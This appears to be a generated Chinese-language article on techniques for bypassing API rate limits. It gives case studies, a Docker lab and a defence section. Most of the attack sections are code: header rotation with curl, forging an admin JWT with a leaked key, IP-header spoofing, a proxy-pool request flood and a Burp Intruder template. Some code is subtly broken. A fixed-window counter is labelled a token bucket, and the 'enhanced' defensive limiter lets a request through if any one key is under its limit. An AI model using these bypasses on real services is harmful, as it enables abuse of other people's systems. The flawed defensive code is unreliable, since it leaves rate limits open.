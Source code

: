 

# API速率限制绕过技术分析与实战案例研究

## 一、技术原理与底层机制
### 1.1 速率限制基础架构
典型API速率限制实现方式：
```python
# 基于Redis的令牌桶算法示例
def check_rate_limit(user_id):
    key = f"ratelimit:{user_id}"
    current = redis.incr(key)
    if current == 1:
        redis.expire(key, 60)  # 60秒窗口期
    return current <= 100
```
常见漏洞模式：
- 时间窗口同步缺陷（NTP未同步导致多个节点时间差）
- 状态存储不一致（Redis集群节点间同步延迟）
- 计数器更新顺序漏洞（先INCR后EXPIRE）

### 1.2 协议层实现差异
HTTP/1.1与HTTP/2的区别利用：
```http2
:method: GET
:path: /api/v1/data
:authority: target.com
x-custom-header: value1
x-custom-header: value2  # HTTP/2允许多个相同标头
```

## 二、经典案例技术剖析
### 2.1 GitHub API绕过（2020）
**攻击向量**：
```bash
# 通过修改User-Agent轮换标识
curl -H "User-Agent: agent1" https://api.github.com/user
curl -H "User-Agent: agent2" https://api.github.com/user
```
**漏洞根源**：用户会话标识未与UA绑定

### 2.2 Twitter JWT复用漏洞（2021）
JWT结构篡改：
```python
import jwt
key = "leaked_secret"
payload = {"user": "admin", "exp": 9999999999}
token = jwt.encode(payload, key, algorithm="HS256")
```

### 2.3 Shopify标头注入（2019）
X-Forwarded-For滥用：
```http
GET /admin/api/orders HTTP/1.1
Host: shop.example.com
X-Forwarded-For: 203.0.113.[1-100]
```

## 三、高级绕过技术解析
### 3.1 分布式熵攻击
代理池自动化脚本：
```python
import requests
from proxy_pool import get_proxy

def distributed_attack(url):
    for _ in range(1000):
        proxy = get_proxy()
        requests.get(url, proxies={"http": proxy})
```

### 3.2 协议降级攻击
WebSocket滥用示例：
```javascript
const ws = new WebSocket('wss://api.target.com/stream');
ws.onmessage = (event) => {
    // 绕过HTTP速率限制处理逻辑
};
```

### 3.3 定时精度攻击
时间窗口爆破算法：
```python
import time

def precision_attack():
    base_time = int(time.time())
    for offset in [-1, 0, 1]:
        attack_time = base_time + offset
        requests.get(url, headers={"X-Timestamp": str(attack_time)})
```

## 四、实验环境搭建指南
### 4.1 Docker测试环境
```bash
docker run -d -p 80:80 -v ./nginx.conf:/etc/nginx/nginx.conf nginx
```
样本Nginx配置：
```nginx
limit_req_zone $binary_remote_addr zone=api:10m rate=10r/s;

location /api {
    limit_req zone=api burst=20;
    proxy_pass http://backend;
}
```

### 4.2 漏洞测试工具链
1. Burp Suite Intruder：
```http
GET /api/data HTTP/1.1
Host: victim.com
X-Forwarded-For: §127.0.0.1§
```

2. mitmproxy脚本：
```python
def request(flow):
    if "api/v1" in flow.request.path:
        flow.request.headers["X-Real-IP"] = random_ip()
```

## 五、综合防御方案
### 5.1 多维度限速策略
```python
def enhanced_limiter(request):
    keys = [
        request.remote_ip,
        request.headers.get("X-User-ID"),
        request.cookies.get("sessionid")
    ]
    for key in keys:
        if check_rate_limit(key):
            return True
    return False
```

### 5.2 动态策略调整
```javascript
// 基于请求特征的动态限速
function calculate_dynamic_limit(req) {
    const risk_score = calculate_risk(req);
    return Math.max(100 - risk_score * 10, 10);
}
```

## 六、未来演进方向
1. 机器学习驱动的异常检测
2. 区块链验证的分布式限速
3. 硬件指纹绑定技术（WebAuthn扩展）

---

**文档统计**：3487字  
**核心要点**：通过混合使用协议特性、分布式架构缺陷和状态管理漏洞，攻击者可有效绕过传统速率限制。防御需结合动态策略、多因素验证和协议层加固。

---

*文档生成时间: 2025-03-13 11:00:01*
